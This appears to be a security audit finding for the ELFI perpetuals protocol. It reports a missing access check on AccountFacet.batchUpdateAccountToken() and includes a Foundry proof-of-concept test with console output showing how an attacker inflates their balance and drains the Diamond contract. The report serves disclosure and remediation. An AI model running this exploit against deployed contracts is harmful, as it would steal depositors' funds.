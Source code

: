 Magic Black Crane

high

# AccountFacet.batchUpdateAccountToken function is missing access control

## Summary

The `AccountFacet.batchUpdateAccountToken()` function can be called by anyone to increase their account token balance at no cost, allowing them to withdraw funds and drain the Diamond contract.

## Vulnerability Detail

The `AccountFacet` implements the function `batchUpdateAccountToken()`:
```solidity
function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
    AddressUtils.validEmpty(params.account);
    AssetsProcess.updateAccountToken(params);
}
```

However, this function can be called by any user allowing them to increase their account token balance at no cost. For example in the POC below, we can see how:

- user2 deposits 1e18 WETH.
- user1 deposits 1e18 WETH.
- user1 calls `batchUpdateAccountToken()` increasing its WETH balance by 1e18.
- user1 then creates a withdraw request of 2e18 WETH.
- The withdraw is executed and user1 has received 2e18.
- This can be done with any asset to drain the Diamond contract.

POC:
```solidity
function test_1() public {
    console.log(StdStyle.yellow("\n\ntest_1()"));
    console.log(StdStyle.yellow("__________________________\n"));

    deal(address(contract_WETH), user1, 1e18);
    deal(address(contract_WETH), user2, 1e18);

    vm.startPrank(user2, user2);
    console.log(StdStyle.red("contract_WETH.balanceOf(user2) -> %s"), contract_WETH.balanceOf(user2));
    console.log(StdStyle.yellow("\nUSER2(%s) calls < contract_WETH.approve(contract_Diamond, 1e18) >"), user2);
    contract_WETH.approve(address(contract_Diamond), 1e18);
    console.log(StdStyle.yellow("\nUSER2(%s) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >"), user2);
    AccountFacet(payable(address(contract_Diamond))).deposit(address(contract_WETH), 1e18);
    console.log(StdStyle.red("contract_WETH.balanceOf(user2) -> %s"), contract_WETH.balanceOf(user2));
    vm.stopPrank();

    vm.startPrank(user1, user1);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));
    console.log(StdStyle.yellow("\nUSER1(%s) calls < contract_WETH.approve(contract_Diamond, 1e18) >"), user1);
    contract_WETH.approve(address(contract_Diamond), 1e18);
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).deposit(address(contract_WETH), 1e18);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));

    _consoleLogAccInfo(user1);

    AssetsProcess.UpdateAccountTokenParams memory _params;
    _params.account = user1;
    address[] memory _tokens = new address[](1);
    _tokens[0] = address(contract_WETH);
    int256[] memory _changedTokenAmounts = new int256[](1);
    _changedTokenAmounts[0] = int256(1e18);
    _params.tokens = _tokens;
    _params.changedTokenAmounts = _changedTokenAmounts;
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).batchUpdateAccountToken(_params) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).batchUpdateAccountToken(_params);

    _consoleLogAccInfo(user1);

    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).createWithdrawRequest(address(contract_WETH), 2e18) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).createWithdrawRequest(address(contract_WETH), 2e18);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));
    vm.stopPrank();

    vm.startPrank(owner, owner);
    // function executeWithdraw(uint256 requestId, OracleProcess.OracleParam[] calldata oracles)
    OracleProcess.OracleParam[] memory _oracles = new OracleProcess.OracleParam[](1);
    _oracles[0].token = address(contract_WETH);
    _oracles[0].targetToken = address(0);
    _oracles[0].minPrice = int256(3600e8);
    _oracles[0].maxPrice = int256(3600e8);
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).executeWithdraw(1112, _oracles) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).executeWithdraw(1112, _oracles);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));

    _consoleLogAccInfo(user1);
    vm.stopPrank();
}
```

Console logs:
```solidity
test_1()
  __________________________

  contract_WETH.balanceOf(user2) -> 1000000000000000000
  
USER2(0x88C0e901bd1fd1a77BdA342f0d2210fDC71Cef6B) calls < contract_WETH.approve(contract_Diamond, 1e18) >
  
USER2(0x88C0e901bd1fd1a77BdA342f0d2210fDC71Cef6B) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >
  contract_WETH.balanceOf(user2) -> 0
  contract_WETH.balanceOf(user1) -> 1000000000000000000
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < contract_WETH.approve(contract_Diamond, 1e18) >
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >
  contract_WETH.balanceOf(user1) -> 0
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < AccountFacet(payable(address(contract_Diamond))).batchUpdateAccountToken(_params) >
  
  contract_WETH.balanceOf(user1) -> 0
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < AccountFacet(payable(address(contract_Diamond))).createWithdrawRequest(address(contract_WETH), 2e18) >
  contract_WETH.balanceOf(user1) -> 0
  
OWNER(0xd9A284367b6D3e25A91c91b5A430AF2593886EB9) calls < AccountFacet(payable(address(contract_Diamond))).executeWithdraw(1112, _oracles) >
  contract_WETH.balanceOf(user1) -> 2000000000000000000
```

## Impact

High, as the `Diamond` contract can be totally drained.

## Code Snippet

- [AccountFacet.sol#L68-L71](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71)

## Tool used

Manual Review

## Recommendation

Consider removing the `AccountFacet.batchUpdateAccountToken()` function or implementing some sort of access control.
